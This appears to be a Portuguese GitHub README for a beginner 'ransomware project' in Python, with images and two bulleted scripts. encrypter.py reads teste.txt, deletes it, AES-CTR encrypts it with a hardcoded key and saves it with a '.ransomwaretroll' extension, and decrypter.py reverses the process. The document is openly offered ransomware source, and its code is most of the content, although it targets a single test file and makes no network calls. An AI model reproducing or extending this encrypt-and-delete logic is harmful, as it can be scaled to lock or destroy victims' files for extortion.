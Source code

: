 # Projeto de ransomware em Python

### Crie o arquivo .txt para ser criptografado

![Alt text](./arquivo%20txt.PNG "Optional title")

### Crie um arquivo para criptografar e um para desicriptograr
![Alt text](./arquivos%20criados.PNG "Optional title")
# encrypter.py
- import os
- import pyaes
#### abrir o arquivo a ser criptografado
- file_name = "teste.txt"
- file = open(file_name, "rb")
- file_data = file.read()
- file.close()
#### remover o arquivo
- os.remove(file_name)
#### chave de criptografia
- key = b"testeransomwares"
- aes = pyaes.AESModeOfOperationCTR(key)
#### criptografar o arquivo
- crypto_data = aes.encrypt(file_data)
#### salvar o arquivo criptografado
- new_file = file_name + ".ransomwaretroll"
- new_file = open(f'{new_file}','wb')
- new_file.write(crypto_data)
- new_file.close()

# decrypter.py
- import os
- import pyaes
#### abrir o arquivo criptografado
- file_name = "teste.txt.ransomwaretroll"
- file = open(file_name, "rb")
- file_data = file.read()
- file.close()
#### chave para descriptografia
- key = b"testeransomwares"
- aes = pyaes.AESModeOfOperationCTR(key)
- decrypt_data = aes.decrypt(file_data)
#### remover o arquivo criptografado
os.remove(file_name)
#### criar o arquivo descriptografado
- new_file = "teste.txt"
- new_file = open(f'{new_file}', "wb")
- new_file.write(decrypt_data)
- new_file.close()

# Resultado
![Alt text](./txt%20criptografado.PNG "Optional title")
